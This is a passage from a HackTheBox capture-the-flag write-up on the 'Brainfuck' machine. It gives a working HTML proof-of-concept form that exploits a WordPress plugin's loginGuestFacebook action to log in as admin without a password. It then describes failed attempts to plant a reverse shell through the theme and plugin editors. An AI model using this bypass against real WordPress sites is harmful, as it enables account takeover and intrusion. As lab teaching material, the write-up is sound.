 ```
Then you can go to admin panel.
```

The `<form>` element will send a POST request to `/wp-admin/admin-ajax.php` with POST parameter `username`, `email`, `action`, `submit`.

**`41006_poc.html`:**
```html
<form method="post" action="https://brainfuck.htb/wp-admin/admin-ajax.php">
	Username: <input type="text" name="username" value="admin">
	<input type="hidden" name="email" value="sth">
	<input type="hidden" name="action" value="loginGuestFacebook">
	<input type="submit" value="Login">
</form>
```

**Let's try that!**
```shell
┌[siunam♥earth]-(~/ctf/htb/Machines/Brainfuck)-[2023.06.04|16:39:34(HKT)]
└> firefox 41006_poc.html
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/HackTheBox/Brainfuck/images/Pasted%20image%2020230604164602.png)

> Note: We found the `admin` user in the home page.

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/HackTheBox/Brainfuck/images/Pasted%20image%2020230604164647.png)

It responses us with a `0`, and set some cookies!

**Which means we're authenticated as user `admin`!**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/HackTheBox/Brainfuck/images/Pasted%20image%2020230604164802.png)

Nice!!

Let's enumerate and even get a reverse shell!

The "Open Ticket" and "Sample Page" is just an empty page and a sample page.

In the admin panel, we can try to upload a reverse shell.

For example, modifying a theme's PHP code:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/HackTheBox/Brainfuck/images/Pasted%20image%2020230604165439.png)

Uhh... Nope, we can't modify anything in the theme editor.

How about upload a reverse shell via "Plugins" page?

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/HackTheBox/Brainfuck/images/Pasted%20image%2020230604170158.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/HackTheBox/Brainfuck/images/Pasted%20image%2020230604170252.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/HackTheBox/Brainfuck/images/Pasted%20image%2020230604165944.png)

Nope. Looks like someone disabled plugins upload.
